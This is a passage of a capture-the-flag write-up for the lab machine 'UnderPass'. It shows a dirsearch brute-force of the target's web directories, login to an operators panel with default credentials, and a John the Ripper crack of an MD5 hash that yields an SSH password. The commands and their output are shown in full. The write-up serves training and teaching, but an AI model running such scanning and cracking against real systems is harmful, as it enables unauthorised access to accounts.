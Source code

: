 
### Third Scan: `/dalXXXXXXX/app/` (with a different wordlist)

```

[root@kali] /home/kali/UnderPass  
❯ dirsearch -u "[http://underpass.htb/dalXXXXXXX/app/](https://www.google.com/search?q=http://underpass.htb/dalXXXXXXX/app/)" -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg\_resources is deprecated as an API. See [https://setuptools.pypa.io/en/latest/pkg\_resources.html](https://setuptools.pypa.io/en/latest/pkg_resources.html)
from pkg\_resources import DistributionNotFound, VersionConflict
*|. \_ \_  \_  \_  \_ *|*    v0.4.3  
(*||| *) (/*(*|| (*| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 220545
Output File: /home/kali/UnderPass/reports/http\_underpass.htb/\_dalXXXXXXX\_app\_\_24-12-22\_16-13-23.txt
Target: [http://underpass.htb/](https://www.google.com/search?q=http://underpass.htb/) Starting: dalXXXXXXX/app/                                                                                                             301 - 330B  - /dalXXXXXXX/app/common  -\>  [http://underpass.htb/dalXXXXXXX/app/common/](https://www.google.com/search?q=http://underpass.htb/dalXXXXXXX/app/common/) 301 - 329B  - /dalXXXXXXX/app/users  -\>  [http://underpass.htb/dalXXXXXXX/app/users/](https://www.google.com/search?q=http://underpass.htb/dalXXXXXXX/app/users/) 301 - 333B  - /dalXXXXXXX/app/operators  -\>  [http://underpass.htb/dalXXXXXXX/app/operators/](https://www.google.com/search?q=http://underpass.htb/dalXXXXXXX/app/operators/)

Task Completed

```
The scan reveals `/dalXXXXXXX/app/operators/`, which can be accessed with the default credentials. The user list inside this panel contains a password hash.

---

## MD5 Crack with John the Ripper

```

[root@kali] /home/kali/UnderPass  
❯ john md5.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
undXXXXXXXXXXXXXX (?)  
1g 0:00:00:00 DONE (2024-12-22 16:34) 8.333g/s 24865Kp/s 24865Kc/s 24865KC/s undiamecaiQ..underthecola
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.

```
The MD5 hash is cracked, and the password is **undXXXXXXXXXXXXXX**. This password can be used to log in via SSH to get `user.txt`.

---
